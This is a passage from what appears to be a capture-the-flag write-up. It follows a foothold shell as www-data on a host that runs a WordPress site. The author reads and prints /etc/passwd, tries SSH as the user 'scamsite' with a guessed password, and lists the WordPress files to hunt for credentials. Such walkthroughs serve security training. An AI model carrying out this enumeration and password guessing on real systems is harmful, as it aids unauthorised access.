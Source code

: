 ```bash
www-data
```

We're connected !!

Let's check who are the users:

```bash
$ cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
scamsite:x:1000:1000:scammer,,,:/home/scamsite:/bin/bash
mysql:x:111:119:MySQL Server,,,:/nonexistent:/bin/false
```

We notice a user called `scamsite`. I tried to ssh with this username and `Scam2021` as password, but it didn't work.

Let's dig into the files. We know there is a wordpress website, were credentials were missing in `enter.txt`. Let's check this out:

```bash
$ ls ../../wordpress

index.php
license.txt
readme.html
wp-activate.php
wp-admin
wp-blog-header.php
wp-comments-post.php
wp-config.php
wp-content
wp-cron.php
wp-includes
wp-links-opml.php
wp-load.php
wp-login.php
```
